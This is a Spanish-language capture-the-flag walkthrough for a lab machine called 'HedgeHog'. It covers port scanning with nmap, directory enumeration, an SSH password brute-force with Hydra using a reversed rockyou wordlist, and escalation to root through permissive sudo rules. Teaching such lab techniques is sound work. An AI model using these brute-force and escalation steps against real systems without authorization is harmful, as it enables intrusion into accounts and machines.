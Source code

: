 
# HedgeHog

### 1. Verificación de Conectividad
Comenzamos con un **ping** para comprobar si la máquina objetivo está activa.

```bash
ping 172.17.0.2
```

Observamos que responde correctamente, lo que indica que está en línea.

### 2. Escaneo de Puertos con Nmap
Ejecutamos un escaneo completo de puertos para identificar los servicios en ejecución:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

#### **Resultados:**
- **Puerto 22 (SSH)** → Servicio de acceso remoto seguro.
- **Puerto 80 (HTTP)** → Servicio web.

Para obtener más detalles, ejecutamos un escaneo de versiones y servicios:

```bash
sudo nmap -sC -sV -p 22,80 172.17.0.2
```

---

## Enumeración Web

Abrimos el navegador y accedemos a `http://172.17.0.2` para analizar el contenido visible.

También usamos **Gobuster** para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

No encontramos resultados relevantes, por lo que pasamos a otra estrategia.

---

## Ataque de Fuerza Bruta (SSH)

Intentamos un ataque con **Hydra**, pero detectamos que es demasiado lento. Decidimos optimizar el diccionario **rockyou.txt** invirtiéndolo, ya que el nombre *tails* sugiere trabajar con "colas".

### **Invirtiendo el Diccionario**

```bash
tac rockyou.txt >> invertido.txt
```

- `tac rockyou.txt` → Invierte el contenido del archivo, mostrando la última línea primero.
- `>> invertido.txt` → Guarda el resultado en un nuevo archivo.

### **Eliminando Espacios en Blanco**
Algunas líneas pueden tener espacios al inicio, lo que afectaría el ataque. Eliminamos estos espacios con:

```bash
sed -i 's/ //g' invertido.txt
```

### **Ejecutando Hydra**

Ahora ejecutamos **Hydra** con el diccionario optimizado:

```bash
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

Se obtiene un usuario y contraseña válidos para SSH.

---

## Acceso a la Máquina Objetivo

Al intentar conectarnos por SSH, obtenemos un error relacionado con la clave del host. Lo solucionamos con:

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
```

Ahora podemos conectarnos:

```bash
ssh tails@172.17.0.2
```

Ingresamos la contraseña obtenida y accedemos correctamente.

---

## Escalada de Privilegios

### **1. Verificando Permisos de `sudo`**

```bash
tails@40336695dba7:~$ sudo -l
```

#### **Resultado:**
El usuario `tails` puede ejecutar comandos como `sonic` sin contraseña (`NOPASSWD: ALL`).

### **2. Cambiando de Usuario `tails` a `sonic`**

```bash
tails@40336695dba7:~$ sudo -u sonic /bin/bash
```

### **3. Verificando Usuario Actual**

```bash
sonic@40336695dba7:/home/tails$ whoami
sonic
```

### **4. Verificando Permisos de `sudo` para `sonic`**

```bash
sonic@40336695dba7:/home/tails$ sudo -l
```

#### **Resultado:**
El usuario `sonic` puede ejecutar cualquier comando como cualquier usuario (`ALL`), sin necesidad de contraseña.

### **5. Escalar a `root`**

```bash
sonic@40336695dba7:/home/tails$ sudo -u root /bin/bash
```

### **6. Verificación Final**

```bash
root@40336695dba7:/home/tails# whoami
root
```

Ahora tenemos acceso total al sistema como `root`.

---

## **Resumen del Ataque**

1. **Reconocimiento:** Identificamos puertos abiertos y analizamos servicios.
2. **Enumeración:** No encontramos archivos ocultos en la web.
3. **Fuerza Bruta (SSH):** Optimizamos el diccionario `rockyou.txt` y logramos acceso con `Hydra`.
4. **Acceso Inicial:** Nos conectamos vía SSH como `tails`.
5. **Escalada de Privilegios:**
   - `tails` → `sonic` (mediante `sudo` sin contraseña).
   - `sonic` → `root` (permiso total en `sudo`).

Con esto, logramos el control total del sistema.<br>

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/


Hasta la próxima, hackers.

